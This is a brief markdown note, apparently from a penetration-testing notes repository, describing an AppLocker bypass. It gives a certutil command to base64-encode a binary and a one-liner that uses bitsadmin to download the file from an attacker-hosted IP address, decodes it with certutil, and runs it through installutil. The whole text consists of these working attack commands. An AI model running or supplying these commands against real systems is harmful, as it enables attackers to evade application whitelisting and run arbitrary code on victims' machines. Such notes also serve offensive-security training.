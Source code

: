 # AppLocker Bypass PowerShell Runspace
1. Encode the binary into a (base64) text file with `CertUtil`.
```powershell
certutil -encode C:\Path\To\Binary.exe enc.txt
```
2. Upload and host the encoded binary `enc.txt` on the attackers web server.
3. We then run the following oneliner on the target to download, decode the encoded binary and use the combination of Microsoft-signed binaries to effectively bypass AppLocker.
```powershell
cmd.exe /c del C:\Windows\Tasks\enc.txt && del c:\Windows\Tasks\a.exe && bitsadmin /Transfer theJob http://192.168.45.179/enc.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\a.exe && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\a.exe
```
